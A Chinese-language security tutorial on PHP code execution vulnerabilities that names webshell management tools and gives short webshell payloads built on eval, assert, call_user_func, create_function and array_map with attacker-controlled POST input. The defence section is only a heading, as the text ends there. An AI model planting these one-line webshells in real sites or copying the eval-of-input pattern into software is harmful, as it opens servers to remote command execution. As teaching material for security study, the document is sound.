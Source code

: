代码执行是执行PHP代码。命令执行是执行linux系统下的命令。
这两者是有区别的。有些代码在php下看起来是有错的，但是在linux下是正确的。
一些工具
```php
蚁剑： https://github.com/AntSwordProject/antSword
冰蝎： https://github.com/rebeyond/Behinder
哥斯拉： https://github.com/BeichenDream/Godzilla
```
# 代码执行
代码执行漏洞（Code Injection Vulnerability）是指攻击者通过注入恶意代码使得应用程序执行了不安全的操作。这类漏洞通常发生在用户输入数据未经充分验证和过滤的情下，被直接传递给解释器或编译器执行。
php所有的函数可以查阅官方的函数手册：
[https://www.php.net/manual/zh/language.functions.php](https://www.php.net/manual/zh/language.functions.php)
在PHP中，允许我们自行传入php代码并执行。一般我们常用的有以下几种：
## eval()
eval($string) 把参数中的字符串当做 php 代码执行。该字符串必须是合法的代码，且必须以分号结尾。
```php
<?php eval($_POST["cmd"]) ?>
<?php echo eval("system(whoami);");?>
```
## assert()
assert($assertion) 如果 assertion 是字符串 ,那么将会被 assert() 当作 php 代码执行。且可以不以分号结尾。
```php
<?php assert($_POST["cmd"]) ?>
<?php assert("system(whoami);") ?>
```
在PHP7 以前 assert 是作为函数。 PHP7 以后， assert 与eval 一样。都是语言构造器。不能被可变函数调用。
## call_user_func()
call_user_func($func,$string) 该函数用于函数调用。我们第一个参数作为调用函数，第二个作为回调函数的参数。算不上代码执行。只能说是一个危险函数。
```php
//<?php call_user_func("assert","whoami");?>
<?php
   call_user_func($_POST["fun"],$_POST["para"])
?>
//post:fun=assert&para=phpinfo();
```
## create_function()
create_function($args, $code) 通过执行代码字符串创建动态函数，本函数已自 PHP 7.2.0 起被废弃，并自 PHP 8.0.0 起被移除
create_function() 是一个 PHP 内置函数，用于动态创建并返回一个匿名函数。它的语法如下：
```php
<?php
   $a= $_POST['func'];
   $b = create_function('$a',"echo $a");
   $b('');
?>
//post:func=phpinfo();
```
## array_map()
为数组的每个元素应用回调函数，用于将一个或多个数组中的每个元素都传递给回调函数进行处理，并返回一个处理后的新数组
```php
<?php
   $array = array(0,1,2,3,4,5);
   array_map($_POST['func'],$array);
?>
//post:func=phpinfo
```
## 防御方法